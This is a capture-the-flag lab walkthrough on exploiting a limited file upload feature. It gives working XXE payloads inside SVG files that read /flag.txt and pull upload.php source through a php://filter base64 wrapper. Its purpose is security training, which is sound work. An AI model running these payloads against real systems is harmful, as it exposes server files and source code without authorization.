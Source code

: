 # Limited File Uploads

#### The above exercise contains an upload functionality that should be secure against arbitrary file uploads. Try to exploit it using one of the attacks shown in this section to read "/flag.txt"

The application in this section allows to upload a file, and the goal of this exercise is to try to exploit any file upload vulnerability.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To look for the flag we must adapt the script provided along the section:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg>&xxe;</svg>
```

Just create a file (`nano xxe.svg`), copy and paste the code above and then hit the **Upload** button.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After the image got successfully uploaded, look for the svg file with the **inpect element** too&#x6C;**.**

And the flag should be easily visible!

#### Try to read the source code of 'upload.php' to identify the uploads directory, and use its name as the answer. (write it exactly as found in the source, without quotes)

For the second part, in the same application we have another task. This time we have to read the source code of 'upload.php' and identify the uploads directory.

This time we'll the following script:

{% code overflow="wrap" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```
{% endcode %}

Like the last time, upload the file and look for the .svg file.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

You should see a base64 string within. Copy it and use in the command bellow do decode it:

```bash
echo "base64_string" | base64 --decode
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And there it is! We manage to decode it and get the uploads directory!
